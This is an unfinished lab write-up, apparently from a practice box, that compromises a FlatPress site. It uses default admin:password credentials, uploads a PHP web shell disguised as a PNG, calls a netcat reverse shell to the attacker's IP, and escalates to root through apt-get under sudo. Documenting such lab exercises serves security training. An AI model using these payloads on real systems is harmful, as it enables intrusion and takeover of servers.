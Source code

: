 #InProgress 
```IP
192.168.102.29
```
# Enumeration

## HTTP 8089
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100033.png?raw=true)
admin:password credentials work
an authenticated RCE vulnerability is described here
https://github.com/flatpressblog/flatpress/issues/152

# Exploitation



```
Content-Disposition: form-data; name="upload[]"; filename="test.png"

Content-Type: image/png



PNG


<?php

system($_REQUEST['cmd']);

?>
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202095926.png?raw=true)
we get RCE
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100229.png?raw=true)

the following payload gives us a revshell
```
http://192.168.102.29:8089/fp-content/attachs/test.php?cmd=busybox%20nc%20%20192.168.45.194%204444%20-e%20sh
```

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100449.png?raw=true)
```
sudo -l
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100512.png?raw=true)
https://gtfobins.github.io/gtfobins/apt-get/
```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100803.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement
